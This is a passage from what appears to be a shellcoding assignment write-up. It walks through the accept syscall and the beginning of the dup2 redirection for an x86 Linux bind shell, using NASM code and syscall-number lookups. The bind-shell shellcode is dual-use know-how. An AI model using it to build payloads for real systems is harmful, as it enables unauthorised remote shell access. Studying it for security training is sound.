 ### Accept
Accept is a function that is also invoked by `socketcall`. The `net` header file contains the integer that needs to be specified for the `accept` function; this is `5`.

~~~ bash
skawa@ubuntu:~/Desktop/code/assignment/assignment1$ cat /usr/include/linux/net.h | grep ACCEPT
#define SYS_ACCEPT	5		/* sys_accept(2)		*/
#define SYS_ACCEPT4	18		/* sys_accept4(2)		*/
#define __SO_ACCEPTCON	(1 << 16)	/* performed a listen		*/
skawa@ubuntu:~/Desktop/code/assignment/assignment1$
~~~

Next, the arguments that are required by the `accept` function can be looked into.

~~~ bash
SYNOPSIS
       #include <sys/types.h>          /* See NOTES */
       #include <sys/socket.h>

       int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
~~~

The `accept` function is required to accept any incoming connections by clients. As client related information is unknown and does not need to be restricted it does not need to be populated with meaningful data.

~~~ nasm
mov al, 0x66 ;socketcall syscall
inc bl ;ebx contains 5, for the type of socketcall, which is accept

;populate the stack with the arguments for accept
push esi  ;push accept addrlen to the stack
push esi  ;push accept sockaddr addr structure to the stack
push edx; push accept sockfd to the stack, this is the value of the file descriptor returned to socket

mov ecx, esp  ;All arguments for accept, as required by socketcall are pointed to by ECX
int 0x80  ;execute accept syscall

mov edx, eax ;move the return value from the accept syscall into EDX for preservation.
~~~

One thing to note is that a client socket file descriptor is returned to `EAX`. It will be important to preserve this for later use.

### Duplicate File Descriptor
Using the duplicate file descriptor, it will be possible to to redirect/duplicate STDIN(0), STDOUT(1) and STDERR(2) through the client socket file descriptor. Doing this makes the shell observable.

The first thing to do is identify the system call for `dup2`, this is `63`.

~~~ bash
skawa@ubuntu:~/Desktop/code/assignment/assignment1$ cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep dup
#define __NR_dup		 41
#define __NR_dup2		 63
#define __NR_dup3		330
skawa@ubuntu:~/Desktop/code/assignment/assignment1$
~~~
